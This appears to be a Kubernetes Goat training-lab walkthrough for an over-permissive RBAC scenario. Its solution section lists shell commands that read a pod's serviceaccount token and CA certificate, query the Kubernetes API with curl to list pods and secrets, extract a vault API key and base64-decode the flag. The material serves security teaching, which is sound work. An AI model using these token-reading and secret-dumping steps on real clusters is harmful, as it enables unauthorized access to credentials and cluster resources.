




# RBAC Least Privileges Misconfiguration

## Scenario Information

We commonly see in real-world where developers and devops teams tend to provide extra privileges than required. This happens attackers gaining more control and privieges than they intended to be. In this scenario you can leverage the serviceaccount binded to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources. Gain access to the `vaultapikey` secret flag.

* To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)


## Scenario Solution

> This deployment has a custom serviceaccount mapped with overly permissive policy/access. As an attacker we can leverage this to gain access to other resources and services.

* As the Kubernetes stores all the secrets, tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth
```



* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges to the token

* To point to the internal API server hostname

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to ServiceAccount token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To read the pods namespace and set that as a variable. The namespace should be `big-monolith`, if it is `default` you need to update Kubernetes-goat to the lastest version ([more info](https://github.com/madhuakula/kubernetes-goat/commit/d068966ae481df55caed818c7cfc14867c1e42a1))

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the ServiceAccount bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the CACERT path to use while querying in the CURL requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```



* To query the available secrets in defaul namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```



* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```


* To query the pods in the sepcific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```



> From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as API service to create, delete pods, etc.

* Get the `k8svaulapikey`

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```


```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

## Miscellaneous

TBD
